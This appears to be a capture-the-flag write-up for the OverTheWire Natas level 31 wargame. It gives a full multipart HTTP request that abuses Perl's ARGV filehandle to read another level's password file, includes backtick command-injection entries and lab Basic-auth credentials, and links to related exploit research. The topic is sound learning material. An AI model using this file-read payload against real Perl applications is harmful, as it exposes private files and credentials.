 Interesting doc and code:
- https://www.blackhat.com/docs/asia-16/materials/asia-16-Rubin-The-Perl-Jam-2-The-Camel-Strikes-Back.pdf
- https://github.com/lcy2/otwPython/blob/master/natas31/natas31.py


This payload can play the trick
```
POST /index.pl?/etc/natas_webpass/natas32 HTTP/1.1
Host: natas31.natas.labs.overthewire.org
Authorization: Basic bmF0YXMzMTpoYXk3YWVjdXVuZ2l1S2FlenVhdGh1azliaWluMHB1MQ==
Origin: http://natas31.natas.labs.overthewire.org
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPOlEHtlszxRIAK3u
Connection: close
Content-Length: 472

------WebKitFormBoundaryPOlEHtlszxRIAK3u
Content-Disposition: form-data; name="file";
Content-Type: text/plain

ARGV
------WebKitFormBoundaryPOlEHtlszxRIAK3u
Content-Disposition: form-data; name="file"; filename="2.txt"
Content-Type: text/plain

1,2,3,4
1,2,3,4
2,2,3,4,extra
3,2,3,4,??,??
4,2,3,4
1,1,1,1
ls,
`ls`,
------WebKitFormBoundaryPOlEHtlszxRIAK3u
Content-Disposition: form-data; name="submit"

Upload
------WebKitFormBoundaryPOlEHtlszxRIAK3u
```

seems the magic word `ARGV` can make perl to open any file that specific in the URL.
